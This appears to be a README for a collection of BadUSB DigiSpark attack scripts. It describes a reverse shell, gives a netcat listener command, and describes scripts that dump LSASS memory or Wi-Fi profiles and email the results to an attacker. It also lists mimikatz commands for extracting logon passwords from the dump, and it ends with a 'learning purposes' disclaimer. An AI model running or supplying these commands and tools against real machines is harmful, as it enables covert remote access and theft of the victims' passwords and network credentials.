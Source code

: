 # BadUSB-DigiSpark Keyboard #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.


# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

### Only use this for learning purposes. ###
